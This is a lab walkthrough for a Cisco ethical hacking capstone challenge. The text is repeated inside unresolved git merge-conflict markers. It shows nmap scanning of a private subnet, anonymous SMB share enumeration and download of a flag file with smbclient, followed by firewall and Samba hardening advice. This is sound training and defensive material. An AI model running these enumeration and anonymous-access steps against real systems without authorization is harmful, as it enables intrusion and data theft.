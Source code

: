 <<<<<<< HEAD
Challenge 3: Exploiting Open SMB Server Shares
Overview
This document outlines the steps to complete Challenge 3 of the Cisco Ethical Hacker Capstone Project. The objective is to identify and exploit open SMB server shares on the 10.6.6.0/24 network, locate the taxes.txt file in the print$ share, extract the code A9!15wa2, and propose remediation strategies.
Prerequisites

Tools: nmap, smbclient (installed via Chocolatey on Windows or native on Linux).
Environment: Git Bash on Windows, within /e/CTF-Projects/Cisco-Ethical-Hacker-Capstone.
Network: Access to 10.6.6.0/24 for scanning.

Steps
Step 1: Scan for SMB Hosts
Objective
Identify hosts running SMB services on the 10.6.6.0/24 network.
Command
nmap -p 139,445 10.6.6.0/24

Result
Host 10.6.6.23 has port 445 open, indicating SMB services.
Screenshot
View Nmap Scan Output
Step 2: Enumerate SMB Shares
Objective
List shares on 10.6.6.23 accessible anonymously.
Command
smbclient -L //10.6.6.23 -N

Output
Sharename       Type      Comment
---------       ----      -------
homes           Disk      All home directories
workfiles       Disk      Confidential Workfiles
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

Analysis

print$ and IPC$ are accessible without authentication.
homes and workfiles likely require credentials.

Screenshot
View SMB Share List
Step 3: Access and Download the File
Objective
Connect to the print$ share, locate taxes.txt, and extract the code.
Commands

Connect to print$:smbclient //10.6.6.23/print$ -N


Inside smbclient:ls
get taxes.txt
exit


Inspect locally:cat taxes.txt



Result

taxes.txt is found in print$.
Contents: A9!15wa2.

Screenshot
View SMB Client Operations
Step 4: Propose Remediation
Objective
Suggest methods to secure the SMB server.
Recommendations

Restrict Access:
Use firewall rules to limit SMB ports (139, 445) to trusted IPs.
Example:iptables -A INPUT -p tcp --dport 445 -s <trusted_ip> -j ACCEPT
iptables -A INPUT -p tcp --dport 445 -j DROP




Enforce Strong Authentication:
In /etc/samba/smb.conf, configure:restrict anonymous = 2
guest ok = no


Enable SMB signing/encryption and use strong passwords.



Folder Structure

challenges/challenge-3-samba-exploits/
screenshots/
step1_nmap_scan.png
step2_smbclient_list_shares.png
step3_smbclient_operations.png


smb-commands.txt: Commands used.
walkthrough.md: This file.


=======
Challenge 3: Exploiting Open SMB Server Shares
Overview
This document outlines the steps to complete Challenge 3 of the Cisco Ethical Hacker Capstone Project. The objective is to identify and exploit open SMB server shares on the 10.6.6.0/24 network, locate the taxes.txt file in the print$ share, extract the code A9!15wa2, and propose remediation strategies.
Prerequisites

Tools: nmap, smbclient (installed via Chocolatey on Windows or native on Linux).
Environment: Git Bash on Windows, within /e/CTF-Projects/Cisco-Ethical-Hacker-Capstone.
Network: Access to 10.6.6.0/24 for scanning.

Steps
Step 1: Scan for SMB Hosts
Objective
Identify hosts running SMB services on the 10.6.6.0/24 network.
Command
nmap -p 139,445 10.6.6.0/24

Result
Host 10.6.6.23 has port 445 open, indicating SMB services.
Screenshot
View Nmap Scan Output
Step 2: Enumerate SMB Shares
Objective
List shares on 10.6.6.23 accessible anonymously.
Command
smbclient -L //10.6.6.23 -N

Output
Sharename       Type      Comment
---------       ----      -------
homes           Disk      All home directories
workfiles       Disk      Confidential Workfiles
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

Analysis

print$ and IPC$ are accessible without authentication.
homes and workfiles likely require credentials.

Screenshot
View SMB Share List
Step 3: Access and Download the File
Objective
Connect to the print$ share, locate taxes.txt, and extract the code.
Commands

Connect to print$:smbclient //10.6.6.23/print$ -N


Inside smbclient:ls
get taxes.txt
exit


Inspect locally:cat taxes.txt



Result

taxes.txt is found in print$.
Contents: A9!15wa2.

Screenshot
View SMB Client Operations
Step 4: Propose Remediation
Objective
Suggest methods to secure the SMB server.
Recommendations

Restrict Access:
Use firewall rules to limit SMB ports (139, 445) to trusted IPs.
Example:iptables -A INPUT -p tcp --dport 445 -s <trusted_ip> -j ACCEPT
iptables -A INPUT -p tcp --dport 445 -j DROP




Enforce Strong Authentication:
In /etc/samba/smb.conf, configure:restrict anonymous = 2
guest ok = no


Enable SMB signing/encryption and use strong passwords.



Folder Structure

challenges/challenge-3-samba-exploits/
screenshots/
step1_nmap_scan.png
step2_smbclient_list_shares.png
step3_smbclient_operations.png


smb-commands.txt: Commands used.
walkthrough.md: This file.


>>>>>>> 291cea28cb3e91e71006b7fb7e7426af4725d1d4
